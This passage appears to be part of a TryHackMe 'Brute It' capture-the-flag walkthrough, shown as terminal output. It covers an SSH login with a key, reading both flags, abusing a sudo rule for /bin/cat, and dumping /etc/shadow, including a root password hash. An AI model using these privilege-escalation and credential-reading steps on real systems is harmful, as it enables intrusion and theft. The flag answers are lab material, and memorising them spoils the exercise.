 ```
Session completed
```

```
kali@kali:~/CTFs/tryhackme/Brute It$ ssh -i id_rsa john@10.10.16.131
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 14 20:08:33 UTC 2020

  System load:  0.16               Processes:           104
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 20%                IP address for eth0: 10.10.16.131
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
```

```
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
```

```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

```
john@bruteit:~$ sudo /bin/cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
```